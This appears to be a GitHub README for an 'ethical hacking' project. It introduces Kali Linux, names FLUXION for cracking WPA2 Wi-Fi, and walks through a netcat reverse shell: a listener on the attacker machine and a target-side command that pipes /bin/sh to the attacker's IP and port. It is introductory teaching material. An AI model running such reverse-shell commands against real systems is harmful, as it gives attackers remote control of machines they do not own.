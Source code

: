 # Python-Ehtical-Hacking

You need to have these two tools to run trhe script

## 1) Kali Linux OS –
Kali Linux is one of the best operating system based on UNIX having more than 1000s of pre-installed tools based on network/forensics/webapp etc. Kali Linux is an open source OS having monolithic type kernel and available in both 32-bit and 64-bit architecture.

There are so many automated cracking tools are there to crack into wi-fi networks like Gerix Wi-Fi Cracker and Fern Wi-Fi Cracker but all are limited to only WEP and WPA based networks but the tool which we’ll discuss is FLUXION is developed in python and usually used to crack WPA2-PSK based networks. DentaFlux is the developer who developed this awesome wi-fi cracking tool.

## 2) NetCat
Netcat is a command in Linux which is used to perform port listening, port redirection, port checking, or even network testing. Netcat is also called a swiss army knife of networking tools. This command is also used to create a reverse shell. Before getting in depth of reverse shell one must be aware of what exactly is netcat tool. To know more, you can go through the article netcat command.

Generally, in order to hack into a system, an attacker tries to gain shell access to execute the malicious payload commands. The gained shell is called the reverse shell which could be used by an attacker as a root user and the attacker could do anything out of it. During the whole process, the attacker’s machine acts as a server that waits for an incoming connection, and that connection comes along with a shell.

Creating Reverse Shells
### 1. Setup a listener: The very first step is to set up a listener on the attacker’s machine in order to act as a server and to listen to the incoming connections. Use the following command to start listening.

nc –nlvp 5555
Replace the port number 5555 with the port you want to receive the connection on.

netcat-listen



This will start the listener on the port 5555.

### 2. Receive connection along with a shell from target: Now as we have started listening, it’s time to execute a basic payload at the target so that we could get a reverse shell. Use the following command to send the request to the attacker.

/bin/sh | nc 127.0.0.1 5555
Replace 127.0.0.1 with the host IP of the attacker and 5555 with the attacker’s port.

netcat-connect

This will give a reverse shell to the attacker which attacker could use to execute any command.

### 3. Executing a command through shell: Now if we enter any command at the receiver’s terminal the output would be displayed on the attacker’s terminal.

netcat-live-reverse-shell
